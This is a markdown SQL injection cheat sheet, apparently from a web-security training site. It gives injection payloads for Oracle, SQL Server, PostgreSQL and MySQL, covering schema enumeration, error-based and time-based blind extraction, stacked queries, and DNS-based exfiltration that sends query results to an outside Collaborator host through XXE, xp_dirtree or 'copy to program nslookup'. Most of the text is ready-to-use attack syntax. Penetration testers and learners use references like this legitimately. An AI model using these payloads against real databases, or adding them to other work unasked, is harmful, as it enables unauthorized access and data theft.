# SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation
You can concatenate together multiple strings to make a single string.
```
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```
## Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Extracting data via visible error messages
You can potentially elicit error messages that leak sensitive data returned by your malicious query.
```
Microsoft	SELECT 'foo' WHERE 1 = (SELECT 'secret')
> Conversion failed when converting the varchar value 'secret' to data type int.
PostgreSQL	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
> invalid input syntax for integer: "secret"
MySQL	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
> XPATH syntax error: '\secret'
```

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
QUERY-1-HERE QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
``` 
#### Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

### Oracle	
(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:

```SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

The following technique works on fully patched Oracle installations, but requires elevated privileges:

```
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

### MySQL	
The following techniques work on Windows only:

``` 
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

### Oracle	
``` SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
### Microsoft	

```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

PostgreSQL	create OR replace function f() returns void as $$
```
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```
### MySQL	
The following technique works on Windows only:
```
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```